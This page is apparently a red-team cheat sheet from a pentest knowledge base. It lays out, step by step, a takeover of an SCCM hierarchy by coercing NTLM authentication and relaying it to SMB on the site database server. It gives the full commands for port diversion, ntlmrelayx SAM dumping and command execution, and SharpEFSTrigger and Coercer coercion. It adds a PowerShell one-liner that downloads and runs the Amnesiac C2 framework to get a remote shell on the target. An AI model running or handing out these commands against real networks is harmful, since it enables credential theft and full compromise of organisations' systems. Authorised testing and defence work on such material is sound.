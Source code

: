# Full Shell RCE

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/sccm-mecm/takeover-2

## Description

Hierarchy takeover via NTLM coercion and relay to SMB on remote site database

## Requirements

1) PKI certificates are not required for client authentication (default)

2) SCCM database server hosted on a system that is independent of the main site server

3) SMB is reachable and SMB signing isn’t required on the site database server

4) Local Administrator if performing the attack from Windows (due to SMB port redirect)

## Tools required

1) divertTCPConn: https://github.com/Arno0x/DivertTCPconn

2) Coercion Tools: https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/Coercion

3) ntlmrelayx: https://github.com/The-Viper-One/RedTeam-Pentest-Tools/blob/main/Relay/ntlmrelayx.exe

## Windows

### 1) Divert SMB on port 445 to port 8445 (Requires Local Administrator)

    divertTCPconn.exe 445 8445

### 2) Set up ntlmrelayx to the alternate SMB port and to point at the MSSQL database server

##### Dump SAM

    ntlmrelayx.exe --smb-port 8445 -smb2support -t <MSSQL SSCM IP>

##### Execute Commands

    ntlmrelayx.exe --smb-port 8445 -smb2support -t 192.168.60.12 -c "[Command]"

### 3) Use SharpEFSTrigger to coerce the SCCM Site Server computer account to the MSSQL database server.

##### Option 2: SharpEFSTrigger

    SharpEFSTrigger.exe <Site Server IP> <Listener IP> EfsRpcDecryptFileSrv

##### Option 1: Coercer

    Coercer.exe coerce -u [Username] -p "[Password]" -d [Domain] -t [Site Server IP] -l [Listener IP] --auth-type smb --filter-method-name EfsRpcDecryptFileSrv

## Getting a full shell on Windows with Amnesiac C2

Link: https://github.com/Leo4j/Amnesiac

### 1) Load Amnesiac through Powershell

    iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/main/Amnesiac.ps1');Amnesiac

### 2) Generate a global listener payload with option [2]

### 3) Use the payload within ntlmrelayx to be executed on the target system.

##### Setup with ntlmrelayx
    
    ntlmrelayx.exe -t 192.168.60.12 -smb2support --smb-port 8445 -c "[PAYLOAD]"

### 4) Once we trigger coercion again, ntlmrelayx will execute the powershell payload on the target system. Once this is done, use option [3] on Amnesiac to connect.

